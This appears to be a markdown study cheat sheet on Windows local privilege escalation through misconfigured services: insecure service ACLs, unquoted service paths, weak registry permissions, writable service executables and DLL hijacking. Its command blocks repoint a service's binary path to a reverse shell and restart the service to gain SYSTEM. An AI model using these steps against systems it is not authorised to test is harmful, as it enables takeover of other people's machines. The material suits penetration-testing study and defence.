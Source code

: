 If a service runs with a SYSTEM Privs and are misconfigured, exploiting them may lead to command execution with SYSTEM privilege as well.

### Service Commands
```powershell
# Query the configuration of a service
sc.exe qc <name>

# Query the current status of a service
sc.exe query <name>

# Modify a configuration option of a service
sc.exe config <name> <option>= <value>

# Start/Stop a service
net start/stop <name>
```

# Service Misconfigurations
### Insecure Service Permissions
Each service has an ACL which defined certain service-specific permission
```powershell
# Innocuous Service Permission
SERVICE_QUERY_CONFIG
SERVICE_QUERY_STATUS

# Usefull Service Permission to check weather service is starable or stopable by the user
SERVICE_STOP
SERVICE_START

# Dangerous Service
SERVICE_CHANGE_CONFIG
SERVICE_ALL_ACCESS
```
- If user has permission to change service configuration with SYSTEM priv, the change the executable path with our own
- We need to have permission to start/stop the service, to be able to escalate prvileges
Check ACLs for a service
```
.\accesschk.exe /accepteula -uwcqv <user> <service>
```
- Change binary path of a service
```powershell
sc.exe config <service> binpath= "\"C:\reverse_shell.exe\""

# start service to start the reverse shell
net start <service>
```

### Unquoted Service Path
```powershell
# runs someProgram.exe
"C:\Program Files\Some Dir\SomeProgram.exe"

C:\Program Files\Some Dir\SomeProgram.exe
# Should run Program first with two argument Files\Some and Dir\Someprogram.exe
# windows resolve this ambiguity by checking each possibiltity in turn.
# Execution order:
# 1. "C:\Program"
# 2. "C:\Program Files\Some"
# 3. "C:\Program Files\Some Dir\SomeProgram.exe"
```
- This can be exploited to check which directory can we access and put our reverse shell there with write access.
- To check write access for each of these directories
```powershell
.\acchesschk -quvdw "C:\"
.\acchesschk -quvdw "C:\Program Files\"
.
.
.
```
- After writeable path is found. Copy the reverse shell.
```
# "C:\Program Files\Some"
net start
```
- We get a reverse shell
### Weak Registry Permission
- Stores data for each service
- Registries have ACL
- ACLs can be misconfigured
- may be possible to service config via registry.
```powershell
# Verify Writable registry keys:
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | select-object -Property *

# Verify writibility via accesschk
.\accesshk -quv
```
```powershell
# Query the registry key
reg query <registry>

# Overwrite the exectable
reg add <registry> /v <variable> /t <data_type> /d <data> /f

# restart the service
net start regsvc
```

### Insecure Service Executable
If the original executable is modifiable by our user.
```powershell
# Overwrite the service executable with our reverse shell.
net start <service>
```

### DLL Hijacking
- A DLL is missing from the system.
- Our user has write permission on the directory where the DDL is looked for by the system. 
- DDL is executed with the same privilege as the process that imports the DLL
```powershell
# Test which service we can stop and start
# copy over to our system
# Use procmon64 to analyze missing DLL
# Check if that path is writable or not
# Place reverse shell there
net start <service>
```

